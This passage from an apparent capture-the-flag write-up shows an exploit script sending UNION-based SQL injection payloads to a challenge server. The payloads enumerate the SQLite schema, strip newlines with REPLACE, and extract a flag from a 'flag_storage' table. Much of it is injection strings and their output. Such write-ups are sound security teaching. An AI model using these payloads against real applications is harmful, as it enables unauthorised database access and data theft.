 Running this against the target gives the following:

```shell-session
$ python exploit.py http://143.110.169.131:31969 key.pem queries.sql
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: table
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: CREATE TABLE "flag_storage" (
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
[ ++ ] RESULT: sqlite_sequence
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 1; --
[ ++ ] RESULT: CREATE TABLE "users" (
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
[ ++ ] RESULT: users
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 2; --
[ ++ ] RESULT: CREATE TABLE sqlite_sequence(name,seq)
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, type, NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, name, NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
[ !! ] No result!
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, sql , NULL FROM sqlite_master LIMIT 1 OFFSET 3; --
[ !! ] No result!
```

Okay, this is progress. We've discovered a `flag_storage` table. We don't know
the schema though, because newlines in the SQL are interferring with the output.
We can work around this though by replacing newlines with some other character
sequence. We can do this with the `REPLACE` function, so instead of selecting
`sql` from the table, we can select `REPLACE(sql, char(10), '__NEWLINE__')`,
`char(10)` being the newline character. Applying this to the query that fetches
the `flag_storage` SQL and rerunning our exploit gives


```shell-session
$ python exploit.py http://143.110.169.131:31969 key.pem queries.sql 
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, REPLACE(sql, char(10), '__NEWLINE__'), NULL FROM sqlite_master LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: CREATE TABLE "flag_storage" (__NEWLINE__	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,__NEWLINE__	"top_secret_flaag"	TEXT__NEWLINE__)
```

We can now use this table structure to extract the flag. We'll use the injection
snippet
`' AND 1 = 0 UNION SELECT NULL, top_secret_flaag, NULL FROM flag_storage LIMIT 1 OFFSET 0; --`
to achieve this:

```shell-session
$ python exploit.py http://143.110.169.131:31969 key.pem queries.sql 
[ ?? ] INJECTING: ' AND 1 = 0 UNION SELECT NULL, top_secret_flaag, NULL FROM flag_storage LIMIT 1 OFFSET 0; --
[ ++ ] RESULT: HTB{d0n7_3xp053_y0ur_publ1ck3y}
```
